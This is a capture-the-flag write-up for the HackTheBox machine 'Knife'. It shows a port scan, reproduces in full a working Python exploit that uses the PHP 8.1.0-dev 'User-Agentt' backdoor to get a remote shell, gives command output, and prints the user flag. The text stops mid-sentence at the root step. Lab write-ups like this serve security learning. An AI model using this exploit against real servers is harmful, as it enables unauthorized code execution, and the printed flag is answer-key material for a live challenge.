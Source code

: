 # Knife

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6b047d79-69bf-4a4d-aec3-f51ced0790a9)


> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.242 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 23:19 PDT
Nmap scan report for 10.10.10.242
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.65 seconds
```

1. Found 2 ports open, and the machine is running a web application with PHP version 8.1.0.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6970c5b2-6643-4afc-ae61-ce75826b97ca)


2. Turns out the PHP version is vulnerable to Backdoor RCE.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fe82c05d-6479-4eae-90d8-c06224a807d2)


3. Based from this exploit.db documentation --> `https://www.exploit-db.com/exploits/49933`, we can add **User-Agentt** at the request header to gain RCE.
4. Let's use the script provided there.

> SCRIPT FROM DOCUMENTATION

```
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

> RESULT

```
┌──(brandy㉿bread-yolk)-[~/machine_knife]
└─$ python3 backdoor_rce.py
Enter the full host url:
http://10.10.10.242 

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ whoami
james

$
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f43c6df3-d20d-4f6a-826b-9d87364c4215)


## USER FLAG

```
b18383f88c92034b8db5157c1c8c28fb
```

5. To get the root flag, let's run `sudo -l` t
